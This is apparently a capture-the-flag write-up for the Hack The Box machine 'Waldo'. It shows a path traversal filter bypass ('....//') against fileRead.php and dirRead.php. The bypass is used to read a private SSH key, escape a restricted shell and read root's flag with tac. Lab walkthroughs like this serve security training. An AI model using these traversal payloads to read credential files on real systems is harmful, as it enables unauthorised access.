 ```yaml
---
title: Waldo
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux, medium]
tags: [hack-the-box, lfi]
math: true
---
```

# Waldo

In the source code of the http website there is this javascript code:

```javascript
function readFile(file){ 
  var xhttp = new XMLHttpRequest();
  xhttp.open("POST","fileRead.php",false);
  xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhttp.send('file=' + file);
  if (xhttp.readyState === 4 && xhttp.status === 200) {
    return xhttp.responseText;
  }else{
  }
}
```
we can use this to read other php files on the server

we intercept the request with burpe and we find out that we can provide an output to `/dirRead.php` to get files.
when playing around with requests we can see that there is a filter on the ../../
```path=....//....//....//....//....//home/nobody//.ssh returns; [".","..",".monitor","authorized_keys","known_hosts"]```
so we can see that the .moinitor might be the private key

we then do this command in /fileRead.php:
```file=....//....//....//....//....//home/nobody/.ssh/.monitor```
which gives us the ssh key for the user nobody 
we can also use the script provided to have a command line interface to get the ssh key
it appears taht there is another user on the box 'monitor' so we try log back in with teh same ssh key to escape our restricted bash shell

```ssh -i /home/nobody/.ssh/.monitor monitor@127.0.0.1 -t bash --noprofile```
the path is screwed so we have to do:
```export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH```
now we can go and have a look around
we eventually figure out that we can use the tac binary to read files

`tac /root/root.txt`
